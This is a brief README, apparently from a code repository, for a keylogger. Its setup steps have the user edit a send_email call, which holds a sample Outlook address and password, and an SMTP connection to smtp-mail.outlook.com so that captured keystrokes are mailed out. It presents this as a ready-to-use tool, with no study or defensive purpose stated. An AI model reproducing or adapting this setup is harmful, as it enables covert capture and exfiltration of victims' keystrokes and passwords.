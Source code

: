 # Keylogger


first change the send_email 

send_email("deneme@outlook.com", "deneme123", msg)

then change this part

email_server = smtplib.SMTP(host='smtp-mail.outlook.com', port=587)
